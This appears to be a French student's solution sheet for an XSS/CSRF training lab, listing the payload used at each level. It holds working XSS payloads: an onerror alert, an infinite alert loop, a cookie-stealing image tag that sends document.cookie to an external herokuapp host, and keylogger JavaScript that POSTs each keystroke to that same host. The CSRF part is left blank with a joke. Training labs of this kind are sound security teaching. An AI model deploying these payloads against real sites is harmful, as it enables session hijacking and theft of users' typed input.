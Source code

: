 Partie 1 -
==
Level 1
-
https://xss-csrf-tp.herokuapp.com/level/1?page=%3Cimg%20src=%27dzqjidqi.jpg%27%20onerror=alert(%27test%27)%3E%3C/img%3E
<br/><br/>
Level 2
-
1 -
`<img src='dqd.jpg' onerror= alert('xss') ></img>` dans title
<br/>
2 -
Le script ne fonctionne ne pas car il a été correctement géré coté serveur.
<br/>
3 -
Les données sont récupérés grâce à un appel de l'API Fetch en JavaScript.
<br/>
4 -
`<img src='zzz.jpg' onerror=while(true)alert('xss') ></img>`
<br/>
5 -
`<img src='zzz.jpg' onerror="var addr = 'https://my-malicious-ws-maisonhaute.herokuapp.com/' + document.cookie; var imgTag = document.createElement('img') ; imgTag.setAttribute('src', addr); document.body.appendChild(imgTag);" ></img>`
<br/><br/>
Level 3
-
1 - 
On peut ajouter une balise script en rajoutant des majuscules à certaine lettre de la balise tel que

<br/>
2 -
Avec la technique précédente, la balise est bien ajouter mais le code ne s'éxecute pas. Il doit y avoir une autre solution.
Pour le keylogger, il suffirait d'écrire ça dans la balise : 
<pre><code>document.addEventListener('keypress', (event) => {
	fetch('https://my-malicious-ws-maisonhaute.herokuapp.com/', {
		method: 'POST',
		headers: { 'Content-Type': 'application/json' },
		body: JSON.stringify({keypressed: String.fromCharCode( event.which )})
	})
});</code></pre>
<br/><br/>
Partie 2
==
1 - J'ai pas d'amis :p
<br/>
2 - J'ai pas d'amis :p
<br/>
3 - J'ai pas d'amis :p

C'est faux j'ai juste pas voulu le faire
